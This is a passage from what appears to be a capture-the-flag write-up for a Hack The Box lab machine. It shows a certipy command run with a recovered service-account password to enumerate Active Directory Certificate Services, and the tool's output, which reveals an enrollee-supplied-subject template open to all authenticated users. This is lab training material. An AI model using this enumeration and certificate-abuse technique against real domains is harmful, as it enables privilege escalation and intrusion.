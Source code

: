 
### AD CS Certificate abuse

```bash
❯ certipy find -vulnerable -stdout -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.216.215
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
```